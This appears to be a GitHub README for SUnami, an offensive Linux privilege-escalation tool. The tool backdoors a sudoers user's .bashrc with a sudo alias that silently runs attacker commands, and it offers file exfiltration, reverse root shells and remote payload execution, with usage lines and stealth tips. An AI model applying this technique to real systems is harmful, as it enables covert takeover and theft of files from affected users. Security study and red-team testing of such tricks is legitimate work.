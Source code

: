 # SUnami
 Struggling with linux priveledge escelation? well then its time to cheese it with SUnami.  
 0 interaction privesc is always recommended but not always achievable. For this reason we have created a tool for the most trivial priv esc in history (with a few drawbacks).  
 This is not an exploit just a cheap but effective trick. The usecase is when you have a shell on a sudoers account but no sudo cred.  
 It works by manipulating sudo via aliasing in their .bashrc file to prepend a malicious attacker specified command first in the background.  
 This does mean you will need to wait for sudo to be executed.  
 flags denoted with -- are required. with - optional.  
 the -local flag denotes that you want sunami to modify the .bashrc file on the current machine instead of producing output (not suggested for stealth reasons).
 
 # Notice
 using the shells and socket based exfil will throw an error in the targets shell if your listener isn't active. be sure to clean up after gaining root. For the most stealth with file exfil we suggest the built in flask server. Currently our built in listener works best with bash shells. for nc shells using ncs own listener is recommended.  
 SUnami has moved to https://github.com/malectricasoftware/SUnami
 

# File Exfiltration
I used passwd so as not to leak my hash for this demo but rest assured you can read whatever file you wish
![image](https://github.com/witchdocsec/SUnami/assets/107813117/a7f26322-5fca-4030-9725-13dc5a02ac44)  
![image](https://negare.serveo.net)  
## useage:
  sunami.py [-local {1,0}] exfilfile [--file FILE] [--method {postflask,nc,pysocket}] [--ip IP] [--port PORT]
# Root Shell
![image](https://github.com/witchdocsec/SUnami/assets/107813117/06000a59-b7da-45f3-8258-89618aa02a1f)
## useage:
  sunami.py [-local {1,0}] genshell [--ip IP] [--port PORT] [-shell SHELL] [-protocol PROTOCOL] [-listen {1,0}]
# Run From Server
![image](https://github.com/witchdocsec/SUnami/assets/107813117/91127128-64e1-4493-bf85-068bc3a04972)
## useage
  sunami.py [-local {1,0}] rfs [-h] --ip IP --port PORT --file FILE [--vars VARS [VARS ...]] [--schema SCHEMA]
  
